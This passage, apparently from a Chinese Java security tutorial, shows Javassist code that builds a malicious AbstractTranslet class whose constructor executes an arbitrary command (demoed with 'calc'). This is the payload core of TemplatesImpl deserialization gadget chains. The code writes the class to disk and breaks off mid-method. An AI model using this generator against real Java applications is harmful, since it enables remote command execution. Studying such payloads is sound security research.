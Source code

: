 ```plain

        } catch (Exception e) {
            e.printStackTrace();
            return ctClass;
        }
    }

    public static void WriteShell() throws IOException, CannotCompileException {
        CtClass shell = GetShellCode.getTemplatesImpl("calc");
        shell.writeFile("D:\\Tomcat\\CC\\src\\main\\java\\JavaassitTest");
    }
    public static void main(String[] args) throws NotFoundException, CannotCompileException, IOException {
        WriteShell();
    }
}
```

这就是我们生成的恶意类：

```plain
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;

public class A extends AbstractTranslet {
    public A() {
        Runtime.getRuntime().exec("calc");
    }
}
```

生成二进制文件形式：

```plain
package EXPShell;
import javassist.*;

import java.io.File;
import java.io.FileOutputStream;
import java.io.IOException;
public class GetShellCode {
    public static byte[] getTemplatesImpl(String cmd){
        try {
            ClassPool pool = ClassPool.getDefault();
            CtClass ctClass = pool.makeClass("A");
            CtClass superClass = pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");
            ctClass.setSuperclass(superClass);
            CtConstructor constructor = CtNewConstructor.make("public A(){Runtime.getRuntime().exec(\"" + cmd + "\");\n}", ctClass);
            ctClass.addConstructor(constructor);
            byte[] bytes = ctClass.toBytecode();
            ctClass.defrost();
            return bytes;

        }catch (Exception e){
            e.printStackTrace();
            return new byte[]{};
        }
    }

    public static void WriteShell() throws IOException {
        byte[] shell = GetShellCode.getTemplatesImpl("calc");
        FileOutputStream fileOutputStream = new FileOutputStream(new File("D:\\Tomcat\\CC\\src\\main\\java\\EXPShell\\S"));
        fileOutputStream.write(shell);
```